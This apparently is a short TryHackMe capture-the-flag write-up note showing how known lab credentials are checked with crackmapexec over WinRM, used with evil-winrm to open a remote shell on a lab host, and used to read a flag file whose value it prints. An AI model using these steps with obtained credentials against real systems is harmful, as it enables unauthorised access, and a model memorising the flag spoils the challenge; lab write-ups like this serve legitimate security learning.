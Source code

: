 You have a valid User with credentials.

User: `buse`
Password: `uzunLM+3131`

## Crackmapexec

#Attacking_Machine 
Crackmapexec (CME)** is an excellent tool for enumerating and testing credentials across SMB, WinRM, and other Windows services. Here's how you can use it in your situation.


```
crackmapexec winrm 10.10.75.173 -u buse -p uzunLM+3131
```

![[Getting a shell-20250430115615528.webp]]

The results are: You can run *winrm* with the given credentials.

## evil-winrm

#Attacking_Machine 
Connect to the machine using 
```
evil-winrm -i 10.10.75.173 -u  Buse -p uzunLM+3131 
```

![[Getting a shell-20250430120000134.webp]]

#Winrm_Shell
Go to `C:\Users\buse\desktop`.

```
cd C:\Users\buse\desktop

cat "Flag 2.txt"
```



> [!Success] Flag 2
> THM{6f690fc72b9ae8dc25a24a104ed804ad06c7c9b1}

**Next step:** [[EXPLOITATION/Enumeration|Enumeration]]